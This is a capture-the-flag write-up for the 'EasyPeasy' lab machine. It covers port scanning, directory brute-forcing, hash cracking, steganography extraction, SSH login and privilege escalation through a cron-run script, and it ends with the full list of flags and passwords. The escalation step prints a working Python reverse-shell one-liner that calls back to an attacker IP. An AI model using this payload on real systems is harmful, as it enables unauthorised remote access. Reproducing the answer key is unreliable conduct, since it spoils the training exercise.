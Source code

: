 # EasyPeasy CTF
## 03-07-2022
## level : easy



## Enumeration Through Nmap

Scanning for open ports 
```
nmap -p- -T5 10.10.239.207 -Pn -oN nmap_easy.txt
```

Scanning for services running
```
nmap -p80,6498,65524 -sV 10.10.239.207 -oN service_version.txt
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| How many ports are open ? | 3 |
| What is the version of nginx ? | 1.16.1 |
| What is running on the highest port ? | Apache |




## Compromising the machine 

Scanning using GoBuster
```
gobuster dir -u http://10.10.239.207/ -w /usr/share/wordlists/dirb/common.txt -t 50 | tee data.txt 
```
Go to the hidden directory found `/hidden/whatever` and view the source to see the flag 1

For Flag 2 got to 
```
http://10.10.255.102:65524/robots.txt
```
Here we can see the hash value of flag 2
```
curl -s http://10.10.255.102:65524/robots.txt    
```

Now if we open the site at `http://10.10.255.102:65524/` we can see the flag 3 in the document
```
curl -s http://10.10.255.102:65524/ | grep -i flag

```

For the hidden directory 
```
curl -s http://10.10.255.102:65524/ | grep -i hidden
```
This lead to a encrypted value with base62 encryption. 
Decrypt it online


After going to the hidden direcory
```
curl -s http://10.10.255.102:65524/n0th1ng3ls3m4tt3r/
```

We find a hash value. lets crack it with john

```
john --format=gost --wordlist=easypeasy.txt hash
```

Now lets download the image availale into the hidden directory
```
wget http://10.10.255.102:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg

```

Crack the steghide password ( We can also extract using the password)
```
stegseek --seed binarycodepixabay.jpg 

```

SSH to the target 
```
ssh boring@10.10.255.102 -p 6498

```

find SUID set binary
```
find / -user root -perm -04000 -type f 2>/dev/null

```

To escalate privilege we need to modify a shell script which is running by the cronjob 

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.48.110",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'


```

now open a netcat listener in the local machine and wait for some time and then boom.


| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Using GoBuster find flag 1 | flag{f1rs7_fl4g} |
| Further enumerate the machine, what is the flag 2 | flag{1m_s3c0nd_fl4g} |
| Crack the hash with easypeasy.txt What is the flag3 ? | flag{9fdafbd64c47471a8f54cd3fc64cd312} |
| What is the hidden directory ? | /n0th1ng3ls3m4tt3r |
| Using the wordlist that provided to you in this task crack the hash. what is the password ? | mypasswordforthatjob |
| What is the password to login to the machine via ssh ? | iconvertedmypasswordtobinary |
| What is the user flag ? | flag{n0wits33msn0rm4l} |
| What is the root flag ? | flag{63a9f0ea7bb98050796b649e85481845} |









--------------------------    THE END    -------------------------- 
